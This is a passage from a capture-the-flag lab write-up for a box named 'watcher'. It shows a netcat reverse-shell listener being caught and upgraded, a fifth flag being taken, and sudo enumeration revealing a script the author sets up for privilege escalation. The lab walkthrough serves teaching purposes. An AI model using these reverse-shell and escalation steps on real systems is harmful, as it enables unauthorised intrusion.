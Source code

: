 ```terminal
mat@watcher:~$ export TERM=xterm                                                                                                                             
export TERM=xterm                                                                                                                                            
mat@watcher:~$ ^Z                                                                                                                                            
zsh: suspended  nc -lnvp 9001                                                                                                                                

┌──(sirius㉿kali)-[~]                                                                                                                                        
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001                                                                                                                              

mat@watcher:~$ ls                                                                                                                                            
cow.jpg  flag_5.txt  note.txt  scripts                                                                                                                       
mat@watcher:~$ whoami                                                                                                                                        
mat                                                                                                                                                          

```
As mat now, we can get our fifth flag.
## Flag 6
Nice, we became mat now, let's see what can we do as mat here:

```terminal
mat@watcher:~$ sudo -l                                                                                                                                       
Matching Defaults entries for mat on watcher:                                                                                                                
    env_reset, mail_badpass,                                                                                                                                 
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                 

User mat may run the following commands on watcher:                                                                                                          
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```
We can run **will_script.py** as will, let's see what the script does:

```terminal
mat@watcher:~/scripts$ cat will_script.py
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```
The script calls `os`, `sys` and `cmd` libraries, and then tries to execute one of the following commands : `ls -lah", "id", "cat /etc/passwd` depending on what we gave it as an argument.
